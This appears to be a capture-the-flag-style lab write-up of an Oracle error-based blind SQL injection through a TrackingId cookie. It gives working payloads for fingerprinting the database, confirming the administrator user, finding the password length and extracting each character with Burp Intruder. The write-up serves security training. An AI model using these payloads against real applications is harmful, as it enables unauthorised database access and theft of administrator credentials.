

# Oracle Error-Based Blind SQL Injection via Cookie Parameter

## Objective

Identify and exploit an Error-Based Blind SQL Injection vulnerability in the `TrackingId` cookie to retrieve the administrator password and gain access to the administrator account.

---

## Vulnerability Discovery

After intercepting a request with Burp Suite, the `TrackingId` cookie was modified by appending a single quote:

```http
TrackingId=xyz'
```

This generated an application error, suggesting that user input was being processed inside a SQL query.

Adding a second quote removed the error:

```http
TrackingId=xyz''
```

This behavior indicated that the initial error was likely caused by an unclosed SQL string.

---

## Database Identification

To verify that the error originated from SQL execution, a SQL payload was injected:

```http
TrackingId=xyz'||(SELECT '')||'
```

The query remained invalid, so an Oracle-specific table was used:

```http
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

The error disappeared, confirming that the back-end database was Oracle, since Oracle requires a table reference in `SELECT` statements.

To further validate SQL execution, a query referencing a non-existent table was submitted:

```http
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```

This generated an error, confirming that injected SQL statements were being executed by the database.

---

## Enumerating Database Objects

To verify the existence of the `users` table:

```http
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

No error was returned, confirming that the table existed.

To check for the administrator account:

```http
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

An error was returned, confirming the existence of the `administrator` user.

---

## Determining Password Length

Conditional error-based queries were used to determine the password length.

Example:

```http
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

The value was incremented until the condition became false.

After testing multiple values, the administrator password length was determined to be:

```text
20 characters
```

---

## Extracting the Password

Burp Intruder was used to automate character extraction.

The following payload was used to test the first character:

```http
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

A payload marker was placed around the test character:

```http
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

A payload list containing:

```text
a-z
0-9
```

was configured in Burp Intruder.

The correct character generated an HTTP 500 response, while incorrect characters returned HTTP 200.

This process was repeated for each position:

```sql
SUBSTR(password,1,1)
SUBSTR(password,2,1)
SUBSTR(password,3,1)
...
SUBSTR(password,20,1)
```

until the entire password was recovered.

---

## Authentication

After extracting the administrator password, the credentials were used to authenticate through the application's login page.

Successful login confirmed complete exploitation of the vulnerability and demonstrated the impact of the SQL Injection flaw.

---

## Tools Used

* Burp Suite Proxy
* Burp Suite Repeater
* Burp Suite Intruder
* Oracle SQL Functions (`CASE`, `SUBSTR`, `LENGTH`, `TO_CHAR`, `ROWNUM`)

---

## Impact

* Database fingerprinting
* User enumeration
* Credential extraction
* Privilege escalation through administrator account compromise

---

## Proof of Successful Login

> Replace the image below with your screenshot after logging in as the administrator.




**Screenshot Description:** Successful authentication using the extracted administrator password obtained through Error-Based Blind SQL Injection.
